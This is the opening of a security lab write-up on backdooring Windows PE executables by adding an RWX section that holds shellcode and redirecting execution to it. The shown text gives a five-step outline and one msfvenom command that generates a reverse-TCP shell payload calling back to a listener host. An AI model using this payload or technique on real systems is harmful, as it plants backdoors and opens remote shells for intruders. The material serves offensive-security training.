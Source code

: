 # Backdooring PE Files with Shellcode

The purpose of this lab is to learn the Portable Executable \(PE\) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

High level process of this technique:

* Add a new RWX PE section, big enough to hold our shellcode, to any .exe file 
* Generate shellcode
* Add shellcode to the newly created PE section
* Redirect execution flow of the .exe file being backdoored to the shellcode
* Redirect execution flow back to the legitimate .exe instructions

The last two steps are a bit more complicated and will have more details below.

## Groundwork

### Generate Shellcode

First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C
```

![](../../.gitbook/assets/image%20%2812%29.png)
